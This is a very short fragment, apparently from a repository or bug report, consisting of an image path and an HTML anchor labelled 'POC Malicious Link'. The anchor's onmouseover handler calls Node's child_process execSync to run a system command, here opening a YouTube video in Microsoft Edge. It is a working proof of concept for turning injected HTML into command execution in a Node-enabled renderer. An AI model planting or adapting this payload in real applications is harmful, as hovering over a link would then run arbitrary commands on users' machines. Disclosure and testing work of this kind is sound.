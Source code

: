 <a onmouseover="require('child_process').execSync('start microsoft-edge:https://www.youtube.com/watch?v=pOeZMeQLsDE')">POC Malicious Link</a>
